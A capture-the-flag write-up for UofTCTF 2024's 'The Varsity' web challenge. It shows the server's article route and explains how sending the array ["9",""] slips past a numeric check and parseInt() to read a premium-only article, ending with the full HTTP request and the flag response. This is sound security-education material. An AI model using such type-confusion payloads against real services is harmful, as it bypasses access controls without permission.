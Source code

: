 ```yaml
---
title: The Varsity
date: 2024-01-16
tags: web
categories: UofTCTF 2024
---
```


written by {% person hartmannsyg %}

We are supposed to access the 10th article (index 9). However that require's a premium subscription, which we cannot get (as far as I know it is impregnable).

{% ccb gutter1:1-34 lang:js highlight:14,20,26 %}
app.post("/article", (req, res) => {
  const token = req.cookies.token;

  if (token) {
    try {
      const decoded = jwt.verify(token, JWT_SECRET);

      let issue = req.body.issue;

      if (req.body.issue < 0) {
        return res.status(400).json({ message: "Invalid issue number" });
      }

      if (decoded.subscription !== "premium" && issue >= 9) {
        return res
          .status(403)
          .json({ message: "Please subscribe to access this issue" });
      }

      issue = parseInt(issue);

      if (Number.isNaN(issue) || issue > articles.length - 1) {
        return res.status(400).json({ message: "Invalid issue number" });
      }

      return res.json(articles[issue]);
    } catch (error) {
      res.clearCookie("token");
      return res.status(403).json({ message: "Not Authenticated" });
    }
  } else {
    return res.status(403).json({ message: "Not Authenticated" });
  }
});
{% endccb %}

Effectively, we need an `issue` what is less than are equal to 9 (`<=9`), but becomes 9 after `parseInt()`:
```js
let issue = ["9", ""]
console.log(issue <= 9) // false
console.log(parseInt(issue)) // 9 
```

So we send our array: `["9", ""]`:

```http
POST /article HTTP/1.1
Host: uoftctf-the-varsity.chals.io
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImEiLCJzdWJzY3JpcHRpb24iOiJndWVzdCIsImlhdCI6MTcwNTM3NTMyOSwiZXhwIjoxNzA1NDYxNzI5fQ.P1qaLqOO9t1rOVg__dXiCC67oycdtz1GaWJkkv54zOo
Content-Length: 20
Sec-Ch-Ua: "Not_A Brand";v="8", "Chromium";v="120"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://uoftctf-the-varsity.chals.io
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://uoftctf-the-varsity.chals.io/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i
Connection: close

{"issue":["9",""]}
```
response:
```json
{
    "title":"UofT Hosts its 2nd Inaugural Capture the Flag Event",
    "content":"Your flag is: uoftctf{w31rd_b3h4v10r_0f_parseInt()!}"
}
```